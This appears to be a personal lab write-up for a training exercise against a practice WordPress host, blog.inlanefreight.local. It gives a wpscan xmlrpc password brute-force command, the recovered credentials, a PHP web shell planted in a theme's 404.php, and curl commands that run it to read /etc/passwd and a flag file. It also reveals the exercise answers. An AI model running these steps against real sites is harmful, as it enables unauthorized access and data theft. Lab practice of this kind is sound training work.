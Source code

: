 What is the version number of the plugin vulnerable to an LFI? 

1.1.1

Use the LFI to identify a system user whose name starts with the letter "f". 

This actually came from enumerating the logins below and injecting an RCE
frank.mclane

Obtain a shell on the system and submit the contents of the flag in the /home/erika directory. 

Trying to get the password of the users
`wpscan --password-attack xmlrpc -t 20 -U admin, david -P /Users/noneya/Useful/Wordlists/rockyou.txt --url "http://blog.inlanefreight.local"`

Username: erika, Password: 010203

Go to the admin page and login.

Then go to themes. Change the 404.php file on the twentyseventeen theme to have:
`system($_GET['cmd']);`

Now try:
`curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id"`

And that works, so I can now get a reverse shell if I want. Or just try and get my other answers.

`curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat%20%2F/etc/passwd"`

That gets me the users. 

`curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat%20%2F/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt"`

This is the answer.

